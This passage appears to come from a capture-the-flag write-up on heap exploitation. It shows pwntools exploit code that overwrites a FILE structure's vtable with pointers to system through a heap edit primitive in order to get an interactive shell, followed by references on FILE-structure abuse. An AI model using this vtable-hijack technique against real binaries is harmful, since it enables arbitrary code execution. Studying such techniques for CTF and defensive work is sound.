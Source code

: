 ```python
payload  = ''
payload += p64(0) # size_t_dummy
payload += p64(0) # size_t_dummy2
payload += p64(0x401297) # _IO_finish_t
payload += p64(system) # _IO_overflow_t
payload += p64(system) # _IO_underflow_t
payload += p64(system) # _IO_underflow_t
payload += p64(system) # _IO_pbackfail_t
payload += p64(system) # _IO_xsputn_t
payload += p64(system) # _IO_xsgetn_t
payload += p64(system) # _IO_seekoff_t
payload += p64(system) # _IO_seekpos_t
payload += p64(system) # _IO_setbuf_t
payload += p64(system) # _IO_sync_t
payload += p64(system) # _IO_doallocate_t
payload += p64(system) # _IO_read_t
payload += p64(system) # _IO_write_t
payload += p64(system) # _IO_seek_t
payload += p64(system) # _IO_close_t
payload += p64(system) # _IO_stat_t
payload += p64(system) # _IO_showmanyc_t
payload += p64(system) # _IO_imbue_t
edit(bins[1], payload)

_exit()

r.interactive()
```

Referensi:

-  [https://github.com/shellphish/how2heap](https://github.com/shellphish/how2heap)
-  [https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
-  [https://www.w0lfzhang.com/2016/11/19/File-Stream-Pointer-Overflow/](https://www.w0lfzhang.com/2016/11/19/File-Stream-Pointer-Overflow/)
